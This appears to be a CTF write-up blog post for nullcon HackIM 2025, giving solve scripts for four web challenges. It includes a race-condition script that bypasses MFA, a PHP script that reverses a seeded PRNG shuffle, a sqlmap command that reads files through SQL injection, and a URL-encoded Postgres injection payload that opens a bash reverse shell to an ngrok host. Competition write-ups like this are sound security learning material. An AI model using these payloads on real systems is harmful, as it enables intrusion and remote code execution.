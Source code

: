 ```yaml
---
title: "nullcon HackIM CTF Berlin 2025"
date: 2025-09-12
description: "not too much..."
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://ctf.nullcon.net/files/6e2a2b9a3c150ac95636f00c62fdeda9/HackIM_Screen.jpg'
translationKey: 'media'
stage: "evergreen"
toc: true
---
```



Congrats to RaptX got 2nd place!

## webby (first blood)

When we login, it set the variable `loggedIn=True` and the username is current username that we login (which is both conditions needed for the flag), and the `/mfa` checks the admin. But here the misconfiguration causes the race condition:
```py
...
        else:
            session.loggedIn = True             # <- race window start 
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False            # <- race window end 
            session._save()
...
```

```py
class flag:
    def GET(self):
        if not session.get("loggedIn",False) or not session.get("username",None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```
So we just need to call the `/flag` quickly when in the race window, here is solve script:

```py
import threading, requests, time, sys

BASE = "http://52.59.124.14:5010"     
USER, PW = "admin", "admin"

sess = requests.Session()            
sess.get(BASE+"/")                  

flag_found = threading.Event()

def racer():
    """Spray /flag until we win the race."""
    while not flag_found.is_set():
        r = sess.get(BASE+"/flag", allow_redirects=False, timeout=2)
        if r.status_code == 200:
            print("[+] FLAG:", r.text.strip())
            flag_found.set()
            break

threads = [threading.Thread(target=racer, daemon=True) for _ in range(10)]
for t in threads: t.start()

sess.post(BASE+"/", data={
    "username": USER,
    "password": PW,
    "submit":   "Login"
}, timeout=5)

for t in threads: t.join(1)
if not flag_found.is_set():
    print("[-] Didn’t win the race, run again or add more threads")

```


## pwgen 

Easily we can identify this is unsecure PRNG, here is solve script with ChatGPT :D 
```php
<?php

$shuffled_flag = "7F6_23Ha8:5E4N3_/e27833D4S5cNaT_1i_O46STLf3r-4AH6133bdTO5p419U0n53Rdc80F4_Lb6_65BSeWb38f86{dGTf4}eE8__SW4Dp86_4f1VNH8H_C10e7L62154";
$flag_length = strlen($shuffled_flag);

$identity_string = '';
for ($i = 0; $i < $flag_length; $i++) {
    $identity_string .= chr($i);
}

echo "Searching for the flag by reversing all possible shuffles (1 to 1000)...\n";

for ($n = 1; $n <= 1000; $n++) {
    srand(0x1337);
    $permuted_identity = '';
    for ($i = 0; $i < $n; $i++) {
        $permuted_identity = str_shuffle($identity_string);
    }

    $inverse_map = array_fill(0, $flag_length, 0);
    for ($shuffled_pos = 0; $shuffled_pos < $flag_length; $shuffled_pos++) {
        $char_at_shuffled_pos = $permuted_identity[$shuffled_pos];
        $original_pos = ord($char_at_shuffled_pos);
        $inverse_map[$shuffled_pos] = $original_pos;
    }

    $potential_flag_array = array_fill(0, $flag_length, '');
    for ($i = 0; $i < $flag_length; $i++) {
        $potential_flag_array[$inverse_map[$i]] = $shuffled_flag[$i];
    }
    $potential_flag = implode('', $potential_flag_array);

    if (strpos($potential_flag, '{') !== false && strpos($potential_flag, '}') !== false) {
        echo "--------------------------------------------------\n";
        echo "✅ Success! Found a potential flag at shuffle count (nthpw) = $n\n";
        echo "Flag: $potential_flag\n";
        echo "--------------------------------------------------\n";
        break; 
    }
}

?>
```

## dogfinder-v1

To be honest, i think ill be certificated prompt engineer after solve 2 versions of this black box challege, firstly i did sqlmap to find the sink that is `order` parameter, then i just prompt with the information i got (also i did research in paralel)

Payload for V1:

```bash
python3 sqlmap.py -u "http://52.59.124.14:5020/?order=id" -p order \
  --sql-query="SELECT pg_read_file('flag.txt',0,8192);" \
  --batch --threads=4 --time-sec=8 
```

## dogfinder-v2 (first blood)

I guess everyone is can easily do the v1, and lack a little lucky for v2, yall know its only have `pg_execute_server_program`, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce then still no luck, after ~1 hour, i got the flag:  
  
![f 1](/commons/ctfs/nullconCTF2025/f1.png)

![f 2](/commons/ctfs/nullconCTF2025/f2.png)

Aight, but i still can't sleep tho, but somehow it has a bit longer then i tried to make rev shell and BOOM, it worked! Here is final payload:

```
http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--
```